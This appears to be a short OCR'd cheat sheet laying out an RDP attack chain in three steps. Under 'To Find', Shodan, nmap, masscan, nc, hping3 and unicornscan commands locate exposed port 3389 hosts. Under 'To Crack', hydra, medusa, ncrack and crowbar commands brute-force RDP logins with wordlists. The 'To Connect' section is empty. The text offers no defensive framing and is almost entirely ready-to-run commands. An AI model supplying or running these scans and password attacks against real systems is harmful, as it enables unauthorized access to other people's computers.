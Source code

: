 
To Find: 

Shodan: 

```text
rdp country: [two letter country code]
```

or

```text
nmap -sS -p 3389 [target IP address]
```

or

```text
masscan -p3389 192.168.1.0/24 --rate=10000
```

or

```text
nc -zv 192.168.1.1 3389
```

or

```
hping3 -S 192.168.1.0/24
```

or

```
unicornscan -mT 192.168.1.0/24:a
```


To Crack:

```
hydra -l username -P /path/to/wordlist.txt rdp://targetip
```

or

```
medusa -u username -P /path/to/wordlist.txt -h targetip -M rdp
```

or

```
ncrack -vv --user username -P /path/to/wordlist.txt rdp://targetip
```

or

```
crowbar -b rdp -s targetip/32
```

To Connect:
